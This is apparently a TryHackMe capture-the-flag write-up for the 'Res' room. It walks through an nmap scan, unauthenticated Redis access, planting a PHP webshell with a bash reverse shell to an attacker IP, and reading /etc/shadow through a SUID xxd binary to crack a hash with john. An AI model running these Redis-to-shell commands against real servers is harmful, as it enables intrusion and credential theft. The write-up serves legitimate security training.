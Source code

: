 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-08
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

According to its [official documentation](https://redis.io/docs/about/):

>*Redis is an open source, in-memory data structure store used as a database, cache, message broker, and streaming engine.*

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see a Apache web server listening to port 80, although, this is does not seem like the right answer to the question.

The default command, that is without any port specification, scans the **most common 1,000 ports for each protocol** ([documentation](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).)), so we can try scanning for all ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **redis** server listening on port 6379 appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if the database requires authentication or not. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis info. 

So, let's try all that:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. By following the article's steps, and using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog (note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!):
 ```shell
 # define the path of Apache's default directory
 config set dir /var/www/html/
 # create a "subdirectory" to host our reverse shell 
 config set dbfilename webshell.php
 # our reverse shell code
 set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
 # save our configuration
 save
 ```
 2. Open a listener to our machine:
 ```shell
 nc -lnvp 12345
 ```
 3. Visit the newly-created server's subdirectory: http://\<target-ip\>/webshell.php
  
 ![rce_setup](rce_setup.png)
 
Success 🎊! With our initial foothold established, let's search for `user.txt`:

![flag1](flag1.jpg)

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, but we saw it again while getting our first flag `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root flag 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's crack on 🏃! We need to make sure to either be on `xxd`'s directory, `cd /usr/bin/`, or provide the full path, `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough. Let go for some hash cracking now 🔒!

### 3.4 Hash Cracking with John The Ripper

Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

![xxd_shadow](xxd_shadow.png)

We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

![passwd](passwd.png)

Now, all we have to do is to unshadow the files and let `john` do the work for us:

![john](john_vianka.jpg)

And that's us done 🍻!